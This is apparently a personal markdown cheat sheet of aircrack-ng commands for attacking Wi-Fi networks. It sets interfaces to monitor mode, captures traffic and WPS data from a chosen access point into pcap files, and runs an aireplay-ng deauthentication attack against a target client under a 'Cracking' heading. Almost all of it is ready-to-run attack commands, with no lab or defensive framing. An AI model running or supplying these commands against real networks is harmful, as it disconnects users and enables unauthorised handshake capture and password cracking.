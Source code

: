## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0

airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --write-interval 5 --output-format pcap wlan0 --write session0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 \
            --write-interval 5 --output-format pcap wlan0 --write session0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
